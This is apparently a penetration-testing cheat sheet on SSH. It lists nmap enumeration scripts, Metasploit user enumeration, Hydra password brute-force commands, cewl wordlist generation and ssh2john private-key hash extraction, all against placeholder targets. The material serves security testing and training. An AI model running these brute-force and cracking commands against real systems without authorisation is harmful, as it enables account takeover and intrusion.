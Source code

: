 ```yaml
---
title: SSH (Secure Shell) Pentesting
description: SSH is a cryptographic network protocol for operating network services securely over an unsecured network. A default port is 22.
tags:
    - Cryptography
    - Network
    - Privilege Escalation
refs:
    - https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf
date: 2023-03-08
draft: false
---
```


## Enumeration

```sh
nmap --script ssh-brute -p 22 <target-ip>
nmap --script ssh-auth-methods --script-args="ssh.user=username" -p 22 <target-ip>
nmap --script ssh-* -p 22 <target-ip>

# User enumeration
msfconsole
msf> use auxiliary/scanner/ssh/ssh_enumusers
```

### Brute Force Credentials

```sh
# -t: tasks
hydra -l username -P passwords.txt <target-ip> ssh -t 4
hydra -L usernames.txt -p password <target-ip> ssh -t 4

# Specific ports
hydra -l username -P passwords.txt -s 2222 <target-ip> ssh -t 4
hydra -l username -P passwords.txt ssh://<target-ip>:2222 -t 4
```

If the target host opens port 80 or 443, you can generate wordlist from the contents of the website then use Hydra.

```sh
cewl http://<target-ip> > wordlist.txt
```

### Crack SSH Private Key

First of all, you need to format the private key to make John to recognize it.

```sh
ssh2john private_key.txt > hash.txt
# or
python2 /usr/share/john/ssh2john.py private_key.txt > hash.txt
```

